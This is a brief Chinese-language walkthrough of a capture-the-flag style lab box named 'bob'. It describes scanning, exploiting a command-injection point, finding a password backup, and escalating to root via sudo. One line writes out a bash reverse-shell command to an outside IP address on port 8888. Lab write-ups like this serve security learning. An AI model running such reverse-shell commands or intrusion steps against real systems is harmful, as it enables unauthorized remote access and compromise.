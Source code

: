 
# bob
## nmap扫描和字典爆破
![image.png](https://s2.loli.net/2025/05/04/n6xKkMJUwNPy4mL.png)

发现一个疑似命令注入点
![image.png](https://s2.loli.net/2025/05/04/5VxG7H16It32pTD.png)

反弹个shell

```
bash -c 'bash -i >& /dev/tcp/61.139.2.153/8888 0>&1'
```

反弹成功

## 信息收集
![image.png](https://s2.loli.net/2025/05/04/mC3sV7PNovu6a2W.png)

在bob的文件夹中发现了 这些东西 应该有用

![image.png](https://s2.loli.net/2025/05/04/AzZPv3n6cgsUENq.png)

![image.png](https://s2.loli.net/2025/05/04/tkZgKEUh2HP6eCw.png)


好家伙 居然发现了密码备份

![image.png](https://s2.loli.net/2025/05/04/LGjrOSiwA6DvctT.png)

有个新的用户

![image.png](https://s2.loli.net/2025/05/04/61QWTlr2tdELGuH.png)

用这个进行ssh登录 但发现没啥东西 因为我们在ssh登录前 就先把bob的目录看了一遍

为数不多的难点就是gpg的加密文件 用的是找到的一个脚本出来的开头英文字母

![image.png](https://s2.loli.net/2025/05/04/AzZPv3n6cgsUENq.png)

用这个解压出来 就是bob的用户 sudo -l看看 发现直接可以root

成功提权

![image.png](https://s2.loli.net/2025/05/04/angKJkzw9RbYWx5.png)


# Photographer
[[Photographer]]
有点oscp强度的靶场 试试看看
